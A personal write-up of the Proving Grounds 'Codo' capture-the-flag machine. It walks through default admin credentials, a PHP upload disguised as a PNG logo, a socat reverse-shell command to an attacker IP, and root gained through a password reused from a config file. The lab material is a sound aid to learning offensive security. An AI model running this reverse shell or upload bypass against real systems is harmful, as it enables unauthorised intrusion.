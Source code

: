 # PG Practice - Codo
## Machine Author: Offsec
## Released on: June 16, 2023
### Difficulty: Easy
### Community Difficulty: Easy
### Description: Part 2 of Mid Year CTF machines.
### Write up - Kaib3r
### Completion date - 29/03/2024


#### Introduction:

This was my second completed machine in Proving grounds without checking a write up, the first machine I did I gave up and checked a write up and realised I'd missed a couple of ports due to not doing an all ports nmap.

This was one was quite simple and I'd done it straight off the back of Sar the PG Play machine a community created machine by Love Sharma. So I had a flow going and got a foot hold in the first 10 mins most of my time was spent trying to Priv Esc without the use of Linpeas which I eventually gave in and transferred it over and ran it and got root within 10-20 minutes.

The basic steps I took are below.

| Step: | Notes: |
| --- | --- |
| 1. | I ran a all ports nmap scan without a T4 switch to get started and ran another in parallel for speed with a T4 switch and of only common ports. |
| 2. | My fast NMAP scan found port 80 opened and I navigated to it and found codologic codoforum installed. |
| 3. | I fuzzed the directory and found the admin portal, I tested the default credentials admin:admin and got in. |
| 4. | I was able to get the exact version of codoforum (Version 5.1.105) and start researching for an exploit. |
| 4.1 | ![ImgPlaceholder](img/codo-image-1.png) |
| 5. | I found an exploit from Vikaran101s Github https://github.com/Vikaran101/CVE-2022-31854/tree/main and tested this out. |
| 5.1 | Unfortunately when trying to utilize this exploit I ran into an error, thankfully Vikaran101 pointed me in the right direction with his error code and pointed out trying to do the upload manually. I realised that this was just an automated version of an insecure file upload which I could of found myself if I had of explored the admin panel more effectively. |
| 5.2 | ![ImgPlaceholder](img/codo-image-2.png) | 
| 6. | I decided to use Burpsuite to capture the file upload exploited through the admin panel. I navigated to admin panel> global settings> change forum logo for codoforum and uploaded the first picture that was in my files (a TCMAcademy logo those who have done the web exploitation section of the Practical Ethical Hacking course from them will understand why :P ) |
| 6.1 | I caught the file upload with Burp suite and modified the PNG upload to have a .php extension and left the magic bytes of the image and some of the PNG unicode/garbage that comes up and added my php one liner into it.  |
| 6.2 | ![ImgPlaceholder](img/codo-image-3.png) |
| 7. | I caught a shell through this and converted it to tty with socat (due to just coming out of the sar machine this was my go to ) commands used below |
| 7.1 | Attack Box: ```socat file:`tty`,raw,echo=0 tcp-listen:4444``` |
| 7.2 | Target: ```socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.45.175:4444``` |
| 8. | I decided to practice my Linux priv esc without Linpeas for a solid 20-30 mins but ended up transferring over linpeas to see what it dredged up. |
| 8.1 | Linpeas found a password in a php config file ```/var/www/html/sites/default/config.php``` "FatPanda123" |
| 9. | According to the config file it was the credentials were the access to the mysql db on the server which I quickly realised I had no access to. |
| 10. | I decided to credential stuff the list of users I found earlier with I cat'd the passwd file. This password ended up being the same as roots and the machine was pwned. |
| 10.1 | ![ImgPlaceholder](img/codo-image-4.png) |

| Lessons Learnt: | |
| --- | --- |
| 1. | Complete the functionality test of a website if you come across one, if you get admin access on the site, complete it again. I could of skipped utilizing the exploit from GitHub though I'm thankful for it and saved time by running the exploit myself which I'd already tested on the avatar upload for standard user accounts. superuser/admin areas typically have lower defenses then outside them. |
| 2. | Don't reuse passwords or store them in your config files. |
| 3. | Patch applications regularly. |
